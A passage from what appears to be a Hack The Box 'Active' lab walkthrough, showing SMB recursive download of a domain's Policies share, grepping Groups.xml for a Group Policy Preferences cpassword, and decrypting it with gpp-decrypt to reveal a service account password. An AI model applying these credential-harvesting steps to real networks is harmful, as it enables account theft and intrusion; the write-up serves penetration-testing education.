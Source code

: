 Policy settings and configs are crucial for management, and can certainly contain sensitive information.

Let's recursively download the entire Policies directory to grep for keywords.

<div class="article-code">
{% highlight sh %}
smb: \active.htb\> recurse
smb: \active.htb\> prompt
smb: \active.htb\> mget Policies
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.6 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (13.5 KiloBytes/sec) (average 3.6 KiloBytes/sec)
...
smb: \active.htb\> 
{% endhighlight %}
</div>

Before running `mget` to download, we must turn on recursive downloads with `recursion`, and to avoid confirmation messages for every file use `prompt`.

<div class="article-code">
{% highlight sh %}
jeanp@~$ cd Policies 
                                                                                                                                                 
jeanp@~/Policies$ ls
{31B2F340-016D-11D2-945F-00C04FB984F9}  {6AC1786C-016F-11D2-945F-00C04fB984F9}
                                                                                                                                                 
jeanp@~/Policies$ grep -r "password"  
{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml:&lt;Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"&gt;&lt;User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"&gt;&lt;Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/&gt;&lt;/User&gt;
{% endhighlight %}
</div>

With the `Policies` folder downloaded, I `cd` into it, and `grep` recursively for `"password"`. Within `Groups.xml` the GPP encrypted password for the user `SVC_TGS` is displayed.

In 2008, Windows introduced Group Policy Preferences (GPP) which allowed administrators to modify users and groups across their network. The passwords were encrypted with AES-256 and stored in the `Groups.xml` file. However, [Microsoft published the AES key in 2012][AES-Key], meaning that GPP passwords are now trivial to crack.

We can decrypt the password using [gpp-decrypt][gpp-decrypt].

<div class="article-code">
{% highlight sh %}
jeanp@~$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
{% endhighlight %}
</div>


[gpp-decrypt]: https://www.kali.org/tools/gpp-decrypt/
[AES-Key]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg
[Kerberoasting]: https://www.ibm.com/topics/kerberoasting#:~:text=Kerberoasting%20is%20a%20cyberattack%20that,data%2C%20spread%20malware%20and%20more. 
[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes